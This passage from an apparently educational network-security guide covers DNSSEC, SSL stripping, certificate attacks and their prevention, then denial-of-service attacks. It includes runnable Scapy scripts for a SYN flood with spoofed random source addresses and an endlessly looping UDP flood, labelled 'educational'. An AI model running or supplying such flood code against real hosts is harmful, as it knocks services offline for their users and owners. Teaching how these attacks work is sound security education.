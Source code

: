 **DNS Security Extensions (DNSSEC):**
- Cryptographic signatures
- Chain of trust from root
- Authentication of DNS responses
- Integrity protection

**3. SSL/TLS Interception**

**SSL Stripping Attack:**
```
Process:
1. User connects to HTTP site
2. Attacker intercepts redirect to HTTPS
3. Attacker maintains HTTP connection to user
4. Attacker establishes HTTPS connection to server
5. User unaware of missing encryption
```

**Certificate-Based Attacks:**
- Rogue certificate authorities
- Certificate pinning bypass
- Weak certificate validation
- Self-signed certificate acceptance

**Prevention:**
- HTTP Strict Transport Security (HSTS)
- Certificate pinning
- Certificate transparency logs
- Public key pinning

#### Denial of Service (DoS) Attacks

**1. Network Layer DoS**

**SYN Flood Attack:**
```python
# SYN flood example (educational)
from scapy.all import *

def syn_flood(target_ip, target_port):
    for i in range(1000):
        src_ip = ".".join([str(random.randint(1,254)) for _ in range(4)])
        packet = IP(src=src_ip, dst=target_ip)/TCP(sport=random.randint(1024,65535), dport=target_port, flags="S")
        send(packet, verbose=0)
```

**SYN Flood Characteristics:**
- Exploits TCP three-way handshake
- Exhausts server connection table
- Uses spoofed source addresses
- Difficult to trace back to source

**UDP Flood Attack:**
```python
# UDP flood example (educational)
def udp_flood(target_ip, target_port):
    packet = IP(dst=target_ip)/UDP(dport=target_port)/Raw(load="X"*1024)
    send(packet, loop=1, verbose=0)
```
